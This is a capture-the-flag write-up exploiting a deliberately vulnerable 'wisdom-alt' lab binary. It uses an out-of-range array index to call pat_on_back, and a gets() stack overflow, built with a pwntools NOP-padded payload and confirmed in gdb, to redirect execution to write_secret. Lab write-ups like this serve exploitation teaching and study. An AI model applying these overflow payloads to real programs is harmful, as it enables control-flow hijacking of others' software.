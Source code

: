 # Buffer Overflow Challenge

## Procedure

### PAT_ON_BACK

First of all I studied the code and tried to understand almost everything. One of the things in which I had to pay more atention was the *atoi* function. Once everything was understood,
the idea was to input a number that instead of being 1 or 2 which were associated with functions *get_wisdom* (address 0x56559098) and *put_wisdom* (address 0x5655909c), input a number
which goes beyond this addresses and reaches the *pat_on_back* address which is loaded on the stack (addresss 0xffffd24c). 

With that objective in mind, we need to calculate the number to input in order to reach the function on the stack. For that purpose we need to substract → address of *pat_on_back* 
on stack - first address of array of functions → 0xffffd24c - 0x56559094 = 0xA9AA41B8 = 2846507448

That result needs to be divided by 4 in order to get the real value of the array → 2846507448/4 = 711626862

So, the input to introduce in order to execute *pat_on_back* is: **711626862**

### WRITE_SECRET

The possible vulnerability is located at the *gets* function on the put_wisdom method. For that reason, we are going to 
pay special attention and try to execute a buffer overflow
on it; changing the return address to the one of the function desired to execute → *write_secret* (0x565562AD).

First, we need to find the offset of the EIP (which controls the flow of a program and tells the computer where to go next 
to execute the next command). For that purpose, we execute 
the Bruijn cyclic sequence and *pattern_search* on the GDB to get the offset:
```
EIP+0 found at offset: 152
```
Now that we know that the offset is 152, we create the payload to inject into the program. For that, we use *pwntools*:
```
from pwn import *
context.arch='amd64'
context.os='linux'

# Return address in little-endian format
ret_addr = 0x565562AD
addr = p64(ret_addr, endian='little')
# Opcode for the NOP instruction
nop = asm('nop', arch="amd64")
# Writes payload on a file
payload =  nop*151 + addr
print (payload)
with open("./shellcode_payload", "wb") as f:
	f.write(payload)
```

This small program just creates a binary file which used as input, it  fills the buffer with NOP operations until the desired offset is reached and the address of *write_secret* is added.  
             
Then, the following script has been used to automate the build of the whole operation:
```
python ./buf_code.py
wc -c malicious_payload 
python -c 'import sys; sys.stdout.write("2\n"+"A"*1022)' > payload_search
cat shellcode_payload >> payload_search
cat payload_search
```
Now, on *payload_search* we have the input for the first read of the program, and the malicious payload (malicious_payload) for the second read (gets).

Finally, we just execute it on the gdb:

1. We put a breakpoint on line 30
2. We execute program with *payload_search* input:
```
run < payload_search
```
We can see that *write_secret* is executed and "secret key" is printed:
```
gdb-peda$ run < payload_search 
Starting program: /home/kali/Desktop/Challenges/BufferOverflow/wisdom-alt/wisdom-alt < payload_search
Hello there
1. Receive wisdom
2. Add wisdom
Selection >Enter some wisdom
secret key[----------------------------------registers-----------------------------------]
EAX: 0xb ('\x0b')
EBX: 0x56558fbc --> 0x3ec4 
ECX: 0x56559084 ("secret key")
EDX: 0xb ('\x0b')
ESI: 0xf7fb5000 --> 0x1dfd6c 
EDI: 0x90909090 
EBP: 0xffffce8c --> 0x90909090 
ESP: 0xffffce84 --> 0x90909090 
EIP: 0x565562df (<write_secret+50>:     nop)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x565562d5 <write_secret+40>:        mov    ebx,eax
   0x565562d7 <write_secret+42>:        call   0x56556140 <write@plt>
   0x565562dc <write_secret+47>:        add    esp,0x10
=> 0x565562df <write_secret+50>:        nop
   0x565562e0 <write_secret+51>:        mov    ebx,DWORD PTR [ebp-0x4]
   0x565562e3 <write_secret+54>:        leave  
   0x565562e4 <write_secret+55>:        ret    
   0x565562e5 <pat_on_back>:    endbr32
[------------------------------------stack-------------------------------------]
0000| 0xffffce84 --> 0x90909090 
0004| 0xffffce88 --> 0x90909090 
0008| 0xffffce8c --> 0x90909090 
0012| 0xffffce90 --> 0x0 
0016| 0xffffce94 --> 0x41414100 ('')
0020| 0xffffce98 ('A' <repeats 200 times>...)
0024| 0xffffce9c ('A' <repeats 200 times>...)
0028| 0xffffcea0 ('A' <repeats 200 times>...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, write_secret () at wisdom-alt.c:30
warning: Source file is more recent than executable.
30        return;
gdb-peda$ 
```

